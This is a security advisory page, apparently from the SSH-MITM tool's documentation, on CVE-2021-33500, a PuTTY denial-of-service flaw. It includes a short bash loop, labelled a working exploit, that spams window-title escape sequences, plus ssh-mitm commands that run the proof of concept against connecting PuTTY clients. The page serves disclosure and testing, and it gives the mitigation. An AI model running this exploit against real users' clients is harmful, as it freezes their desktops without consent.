 .. _cve-2021-33500:

:fas:`info;sd-text-primary` CVE-2021-33500
=============================================

.. card::

    :bdg-warning:`CVSS 7.5` CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
    ^^^
    PuTTY before 0.75 on Windows allows remote servers to cause a denial of service
    (Windows GUI hang) by telling the PuTTY window to change its title repeatedly at high speed,
    which results in many SetWindowTextA or SetWindowTextW calls.

    NOTE: the same attack methodology may affect some OS-level GUIs on Linux or other platforms for similar reasons.
    +++
    **Affected Software:**

    * PuTTY < 0.75


Description
-----------

A vulnerability in PuTTY < 0.75 freezes the entire, leading inevitably to a manual restart. This happens when executing
a simple command to repeatedly change the terminals title.

Set window title from terminal:

.. code-block:: bash

    $ PS1=''
    echo -ne "\033]0; NEW_TITLE \007"

Thus, an working exploit would be:

.. code-block:: bash

    $ PS1=''
    while :
    > do
    > echo -ne "\033]0; NEW_TITLE${RANDOM}  \007"
    > done


Using the injection functionality of the mitm Server, this exploit can be executed immediately when a client connects
to the mitm server via PuTTY.

Test with SSH-MITM
------------------

A proof of conecpt exploit is integrated in the extra package ssh-mitm-plugins.

You can install the required extra packages with following command:

.. code-block:: bash

    $ python3 -m pip install ssh-mitm[plugins]


After installing the plugins you can start ssh-mitm:

.. code-block:: bash

    $ ssh-mitm server --ssh-interface puttydos

When you have logged in with PuTTY to the ssh-mitm server,
ssh-mitm executed the exploit and PuTTY will freeze the desktop.



Mitigation
----------

Update PuTTY to version >= 0.75


References
----------

* https://nvd.nist.gov/vuln/detail/CVE-2021-33500
